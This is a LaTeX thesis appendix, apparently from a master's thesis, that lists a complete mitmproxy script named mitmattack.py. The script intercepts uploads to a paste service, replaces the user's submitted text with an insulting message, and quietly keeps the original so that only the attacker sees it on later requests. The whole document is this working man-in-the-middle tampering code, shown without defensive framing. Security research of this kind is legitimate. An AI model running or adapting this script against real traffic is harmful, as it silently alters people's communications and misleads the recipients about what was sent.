 \documentclass[mscthesis]{usiinfthesis}
\begin{document}
\section{mitmattack.py}\label{sec:mitmattack.py}
\begin{lstlisting}[language=Python,frame=single,breaklines=true,postbreak=\mbox{\textcolor{red}{$\hookrightarrow$}\space}]
#!/bin/python3
from mitmproxy import http
import logging

hidden_truth={}
what_others_see="Who do you think you are? How dare you to give me suggestions like this? Your naive ideas will never work. You have been blocked. *NEVER* send me emails again."

def request(flow: http.HTTPFlow) -> None:
  if flow.request.text:
    if 'Content-Disposition: form-data; name="sprunge"' in flow.request.text:
      lines = flow.request.text.split("\r\n")
      setattr(flow, "spurnge", lines[3:-2])
      lines = lines[:3] + [what_others_see] + lines[-2:]
      flow.request.text = "\r\n".join(lines)
  for url, text in hidden_truth.items():
    print(url, flow.request.url)
    if flow.request.url.startswith(url):
      setattr(flow, "binyong", text)
      print(1111)
      break	  

def response(flow: http.HTTPFlow) -> None:
  if hasattr(flow, "spurnge"):
    truth = "\r\n".join(flow.spurnge)
    hidden_truth[flow.response.text.strip()] = truth
    hidden_truth["https" + flow.response.text.strip()[4:]] = truth
    print(flow.response.text)
  if hasattr(flow, "binyong"):
    flow.response.text = flow.binyong
    print(flow.response.text)
\end{lstlisting}
\end{document}
